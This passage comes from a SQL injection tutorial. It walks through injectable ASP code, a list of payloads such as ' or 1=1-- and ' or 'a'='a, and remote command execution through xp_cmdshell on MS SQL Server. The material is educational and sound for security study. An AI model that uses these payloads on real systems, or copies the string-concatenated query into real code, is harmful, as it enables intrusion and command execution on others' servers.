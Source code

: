 ## But why ' or 1=1--? ##

Let us look at another example why ' or 1=1-- is important. Other than bypassing login, it is also possible to view extra information that is not normally available. Take an asp page that will link you to another page with the following URL:
<http://duck/index.asp?category=food>
In the URL, 'category' is the variable name, and 'food' is the value assigned to the variable. In order to do that, an ASP might contain the following code (OK, this is the actual code that we created for this exercise):
v_cat = request("category")
sqlstr="SELECT * FROM product WHERE PCategory='" & v_cat & "'"
set rs=conn.execute(sqlstr)
As we can see, our variable will be wrapped into v_cat and thus the SQL statement should become:
SELECT * FROM product WHERE PCategory='food'
The query should return a resultset containing one or more rows that match the WHERE condition, in this case, 'food'.
Now, assume that we change the URL into something like this:
<http://duck/index.asp?category=food'> or 1=1--
Now, our variable v_cat equals to "food' or 1=1-- ", if we substitute this in the SQL query, we will have:
SELECT * FROM product WHERE PCategory='food' or 1=1--'
The query now should now select everything from the product table regardless if PCategory is equal to 'food' or not. A double dash "--" tell MS SQL server ignore the rest of the query, which will get rid of the last hanging single quote ('). Sometimes, it may be possible to replace double dash with single hash "#".
However, if it is not an SQL server, or you simply cannot ignore the rest of the query, you also may try
' or 'a'='a
The SQL query will now become:
SELECT * FROM product WHERE PCategory='food' or 'a'='a'
It should return the same result.
Depending on the actual SQL query, you may have to try some of these possibilities:
' or 1=1--
" or 1=1--
or 1=1--
' or 'a'='a
" or "a"="a
') or ('a'='a

# How do I get remote execution with SQL injection #

Being able to inject SQL command usually mean, we can execute any SQL query at will. Default installation of MS SQL Server is running as SYSTEM, which is equivalent to Administrator access in Windows. We can use stored procedures like master..xp_cmdshell to perform remote execution:
'; exec master..xp_cmdshell 'ping 10.10.1.2'--
Try using double quote (") if single quote (') is not working.
The semi colon will end the current SQL query and thus allow you to start a new SQL command. To verify that the command executed successfully, you can listen to ICMP packet from 10.10.1.2, check if there is any packet from the server:
